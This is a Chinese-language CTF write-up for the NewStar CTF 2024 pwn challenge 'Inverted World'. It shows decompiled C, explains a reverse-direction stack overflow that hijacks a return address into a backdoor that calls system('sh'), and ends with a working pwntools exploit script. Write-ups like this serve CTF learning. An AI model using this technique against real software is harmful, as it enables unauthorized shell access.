 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Inverted World

## 题目分析

checksec 之后发现未开启 pie，开启了 Canary.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[255]; // [rsp+0h] [rbp-110h] BYREF
  _BYTE v5[17]; // [rsp+FFh] [rbp-11h] BYREF

  *(_QWORD *)&v5[9] = __readfsqword(0x28u);
  init(argc, argv, envp);
  table();
  write(0, "root@AkyOI-VM:~# ", 0x12uLL);
  read(0, v5, 0x512uLL);  // 这里实际是自定义的 _read 函数，实现和 read 函数相反方向的输入
  write(1, buf, 0x100uLL);
  puts(byte_402509);
  puts("??? What's wrong with the terminal?");
  return 0;
}
```

`main` 函数的 `read` 存在栈溢出，但是这个 `read` 函数是自定义的（源码中命名函数名为 `_read` 来实现的）。

`_read` 实现的是和正常 `read` 相反方向进行输入，我们这里输入的长度 `0x512` 明显大于 255，可以写到低地址的栈帧的东西，我们劫持位于低地址的 `_read` 函数的返回地址到 backdoor 中间的部分（因为劫持到开头过不了检测）。

反向输入 `sh` 即可执行 `system("sh")` 拿到shell.

:::info 关于 Canary
因为是反向输入的，只要不多写东西就不会修改到 Canary，自然就不用故意绕过 Canary.
:::

## EXP

```python
from pwn import*

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

p=remote('???.???.???.???', ?????)

payload=b'a'*0x100
p.sendline(payload+p64(0x040137C)[::-1])
p.sendlineafter("root@AkyOI-VM:~#", "hs")
p.sendline("cat flag")
p.interactive()
```

